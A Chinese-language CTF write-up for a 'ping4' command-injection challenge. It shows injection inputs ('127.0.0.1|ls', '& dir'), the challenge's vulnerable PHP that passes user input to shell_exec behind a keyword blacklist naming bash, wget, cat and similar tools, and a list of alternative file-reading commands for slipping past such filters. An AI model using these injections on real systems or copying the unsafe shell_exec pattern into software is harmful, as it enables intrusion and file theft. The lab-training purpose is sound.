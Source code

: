 #### ping4

先查下列表

```
127.0.0.1|ls
```

发现显示no，被过滤了

![image-20201208225748080](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20201208225748080.png)

用这个试试

```
& dir
```

![image-20201208225827720](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20201208225827720.png)

哎，发现有个备份文件，下载下来就是源码了

```php
<?php
header("Content-Type: text/html;charset=utf-8");
if( isset( $_POST['submit']  ) ) {
    // Get input
    $target = $_REQUEST['site'];
    if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i",  $target )) {
      die("no");
    }
    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}
?>
```

可以看到很多东西都被过滤掉了

cat echo $不能读取，写木马，拼接函数也不行

在ctf中其实除了cat命令可以读取文件外还有下面这几个也可以读取文件

```
1.more 
2.cat 
3.tac
4.head
5.tail
6.less
7.sort
```
